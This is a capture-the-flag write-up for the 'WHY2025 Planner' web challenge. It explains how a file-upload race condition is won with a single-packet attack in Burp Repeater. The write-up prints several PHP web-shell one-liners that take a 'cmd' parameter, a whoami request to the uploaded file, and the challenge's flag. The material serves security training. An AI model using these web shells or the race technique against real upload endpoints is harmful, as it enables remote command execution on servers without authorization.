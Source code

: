 ```yaml
---
name: WHY2025 Planner (2025)
event: WHY CTF 2025
category: Web
description: Writeup for WHY2025 Planner (Web) - WHY CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# WHY2025 Planner

## Description

> We at WHY2025 are a well oiled machine, this is because we have this awesome [planningtool](https://why2025planning.ctf.zone) we are developing, please check it out and add yourself to it!

## Solution

We register/login and find a planning tool. We can add bullet points, but there doesn't appear to be any HTMLi.

![](images/0.PNG)

More importantly, we can upload a file. There is no filter on the file extension or content-type, but our file is deleted immediately after the scan. According to the JS source, the site is expecting JSON content.

{% code overflow="wrap" %}
```javascript
document.getElementById("uploadForm").addEventListener("submit", async function (e) {
    e.preventDefault();
    const formData = new FormData(this);
    const statusDiv = document.getElementById("uploadStatus");

    statusDiv.textContent = "Uploading and scanning file...";
    statusDiv.className = "";

    const response = await fetch("upload.php", {
        method: "POST",
        body: formData,
    });

    const text = await response.text();

    // Match multiple JSON objects: greedy split on outermost }
    const messages = text.match(/{[^}]+}/g);

    if (!messages) {
        statusDiv.textContent = "Invalid response.";
        statusDiv.className = "error";
        return;
    }

    statusDiv.innerHTML = ""; // clear previous output

    messages.forEach((rawJson) => {
        try {
            const data = JSON.parse(rawJson);
            const msg = document.createElement("div");
            msg.textContent = data.message;
            msg.className = data.status === "fail" || data.status === "deleted" ? "error" : "success";
            statusDiv.appendChild(msg);
        } catch (err) {
            const errDiv = document.createElement("div");
            errDiv.textContent = "Invalid JSON: " + rawJson;
            errDiv.className = "error";
            statusDiv.appendChild(errDiv);
        }
    });
});
```
{% endcode %}

However, even when sending a JSON file, the server says the file was deleted after scan (wrong type). I thought maybe we could fuzz file extensions/content-types, but then I remembered a Portswigger lab I solved in the past.

It was a race condition where users could upload files, but the file would be deleted quickly by the AV/firewall. If an attacker sent the file upload request at the same time as \[several\] requests to access the file, one of them might slip through before the file is deleted. For this, we need to know the location/filename. Luckily for us, this is already provided in the error feedback.

### Race Condition

To test the hypothesis, I created a group of tabs in burp repeater. The first uploaded a valid JSON file and the next ~10 would request the file. Sending the group of requests using the [last-byte sync (aka single packet attack)](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local) would result in some of the responses showing the contents of the JSON file, while others showed a 404 not found error.

I switched the file type to a basic PHP shell, with the rest of the repeater tabs making a GET request to `/uploads/new.php?cmd=whoami`

{% code overflow="wrap" %}
```php
<?php system($_GET['cmd']); ?>
```
{% endcode %}

Unfortunately, all these requests came back with a 500 internal server error, or 404 not found. I changed the PHP file contents to a more benign one, and it worked (printed "meow").

{% code overflow="wrap" %}
```php
<?php echo("meow") ?>
```
{% endcode %}

I tried a few alternative functions for command execution.

{% code overflow="wrap" %}
```php
<?php system($_REQUEST["cmd"]); ?>
<?php echo shell_exec($_GET['cmd']); ?>
<? passthru($_GET["cmd"]); ?>
```
{% endcode %}

They all failed! Eventually I tried to view the `phpinfo()`

{% code overflow="wrap" %}
```php
<?php phpinfo(); ?>
```
{% endcode %}

![](images/1.PNG)

When checking the responses, I see one with a 200 OK and long response body. Searching for "flag" reveals the correct flag 😎

![](images/2.PNG)

Flag: `flag{1cdaf6ddac4je1a91a8dcb8e01llbfbb}`
